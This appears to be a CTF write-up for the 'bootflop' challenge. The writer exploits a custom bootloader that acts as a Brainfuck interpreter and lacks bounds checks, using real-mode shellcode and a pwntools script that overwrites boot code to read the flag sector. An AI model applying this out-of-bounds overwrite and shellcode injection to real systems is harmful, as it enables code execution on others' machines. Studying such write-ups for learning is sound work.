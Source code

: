 ```yaml
---
author: "nothoudaifa"
title: "bootflop chall writeup from ingehack 4.0"
date: "2025-02-26"
tags: 
- ctf 
- pwn 
---
```


```c
challenge author: itskarudo
points: 493
desc: i love esolangs, i love bootloaders.
```

this challenge gives a custom bootloader that you have to exploit.

we are given two files [run.sh](http://run.sh) and bootflop.img (which is the bootloader image)

first thing i did was running xxd on bootflop.img:

```
00000000: fc31 d2c7 0622 7d26 7dbf 567d c706 247d  .1..."}&}.V}..$}
00000010: 567d b03e e8f8 00b0 20e8 f300 e8f5 003c  V}.>.... ......<
00000020: 7f74 0baa 3c0d 741e 3c0a 741a ebee 81ff  .t..<.t.<.t.....
00000030: 567d 74e8 4fb0 08e8 d500 b020 e8d0 00b0  V}t.O...... ....
00000040: 08e8 cb00 ebd6 b00a e8c4 00ff 0e24 7dff  .............$}.
00000050: 0624 7d8b 3624 7d80 3c2b 742a 803c 2d74  .$}.6$}.<+t*.<-t
00000060: 2d80 3c3e 7430 803c 3c74 3180 3c2e 7432  -.<>t0.<<t1.<.t2
00000070: 803c 2c74 3880 3c5b 7443 803c 5d74 66b0  .<,t8.<[tC.<]tf.
00000080: 0ae8 8b00 eb83 8b36 227d fe04 ebc1 8b36  .......6"}.....6
00000090: 227d fe0c ebb9 ff06 227d ebb3 ff0e 227d  "}......"}...."}
000000a0: ebad 8b36 227d 8a04 e864 00eb a2e8 6400  ...6"}...d....d.
000000b0: 8b36 227d 8804 b00a e854 00eb 928b 3622  .6"}.....T....6"
000000c0: 7d80 3c00 7589 b901 00ff 0624 7d8b 3624  }.<.u......$}.6$
000000d0: 7d80 3c5b 7501 4180 3c5d 7501 4983 f900  }.<[u.A.<]u.I...
000000e0: 75e7 e96a ff8b 3622 7d80 3c00 0f84 5fff  u..j..6"}.<..._.
000000f0: b901 00ff 0e24 7d8b 3624 7d80 3c5d 7501  .....$}.6$}.<]u.
00000100: 4180 3c5b 7501 4983 f900 75e7 e940 ffba  A.<[u.I...u..@..
00000110: f803 eec3 bafd 03ec a801 74f8 80ea 05ec  ..........t.....
00000120: eec3 0000 0000 0000 0000 0000 0000 0000  ................
00000130: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000140: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000150: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000160: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000170: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000180: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000190: 0000 0000 0000 0000 0000 0000 0000 0000  ................
000001a0: 0000 0000 0000 0000 0000 0000 0000 0000  ................
000001b0: 0000 0000 0000 0000 0000 0000 0000 0000  ................
000001c0: 0000 0000 0000 0000 0000 0000 0000 0000  ................
000001d0: 0000 0000 0000 0000 0000 0000 0000 0000  ................
000001e0: 0000 0000 0000 0000 0000 0000 0000 0000  ................
000001f0: 0000 0000 0000 0000 0000 0000 0000 55aa  ..............U.
00000200: 696e 6765 6861 636b 7b66 616b 655f 666c  ingehack{fake_fl
00000210: 6167 7d                                  ag}
```

we can see that the flag is at 0x200, from my experience in writing a simple bootloader i knew that:

- only the first 0x200 (the [bootsector](https://wiki.osdev.org/Boot_Sequence#Master_Boot_Record)) bytes of the image will be loaded at 0x7c00.
- to read the rest of the image (the flag) i need to read from the disk using bios interrupts, which means i need to be able to run my own shellcode.

after that, i disassembled the bootloader image using

```bash
objdump -D -b binary -m i8086 bootflop.img -M intel
```

i gave the disassembly to chatgpt, and it told me

```bash
- this program is Brainfuck interpreter.
- 0x7D22 is initialized as a pointer to the memory tape.
- 0x7D24 is initialized as a pointer to the input program.
- it continuously reads and executes Brainfuck commands.
- it uses serial ports (which are mapped to stdio in run.sh) to input and output data
- it has 8 commands:
	+ (0x2B): Increments the byte at the current memory cell.
	- (0x2D): Decrements the byte at the current memory cell.
	> (0x3E): Moves the pointer to the right.
	< (0x3C): Moves the pointer to the left.
	. (0x2E): Outputs the byte at the current memory cell.
	, (0x2C): Inputs a byte and stores it at the current memory cell.
	[ (0x5B): Loops while the current memory cell is nonzero.
	] (0x5D): Jumps back to the matching [ if the memory cell is nonzero.
```

## The vulnerability:

the vulnerability lies in the < and > commands, the bootloader does not check if we go out of bounds of the memory tape (which starts at 0x7d26, check assembly), we can write into bootloader executable code and it will run just fine.

## Exploitation:

the exploitation part is simple, write shellcode into memory, then write (or overwrite) a jmp instruction so it jumps to our shellcode.

using chatgpt i got the following shellcode that reads the sector (which is the flag) into 0x7a00 then outputs it to serial com1

```nasm
org 0x7C00

    mov ah, 0x02    ; BIOS read sector function
    mov al, 0x01    ; Read 1 sector
    mov ch, 0x00    ; Cylinder 0
    mov cl, 0x02    ; Sector 2 (1-based index)
    mov dh, 0x00    ; Head 0
    mov dl, 0x80    ; Drive 0x80 (first hard disk)
    mov bx, 0x7a0  ; Load sector into 0x7a00
    mov es, bx      ; Set ES to 0x7a0 (this is a segment to it will be multiplied by 0x10)
    mov bx, 0x0000  ; Offset within segment (zero to read the whole flag)

    int 0x13        ; Call BIOS interrupt
    
    mov si, 0x0010 ; flag offset 
    mov dx,0x3f8
    mov al, byte [es:si]
    out dx,
    ; does not matter what happens after this
```

as you can see, this only prints one char, that’s because in the ctf i wrote my shellcode into the memory tape, which was not that long and i couldn’t fit a loop in it (i know i could have wrote it somewhere else), so what i did was output one char at a time and keep overwriting the offset in python so it would print the next char in each connection.

here is the python script:

```python
from pwn import *

flag = ''
for off in range(0, 0x100):
    p = remote("bootflop.ctf.ingeniums.club", 1337, ssl=True)
    win = open("win.bin", "rb").read()
    win = win[:0x17] + off.to_bytes(1, 'little') + win[0x18:]
    
          
    payload = b'>'
    for i in range(len(win)):
        payload += b'>'
        payload += b'+' * win[i]

    p.sendline(payload)
    payload = b'<' * (1 + len(win))
    p.sendline(payload) 

    payload = b'<' * 0x110
    payload += b'+'
    payload += b'<'
    payload += b'-' * (0xf8-0x11)
    p.sendlineafter(b'>', payload)

    a = p.recvall(timeout=1)
    flag += chr(a[-1])
    print(flag)
```

flag: `ingehack{debugging_real_mode_apps_sucks_man}`
yup it definitely sucked, gdb does not even disassemble it properly.
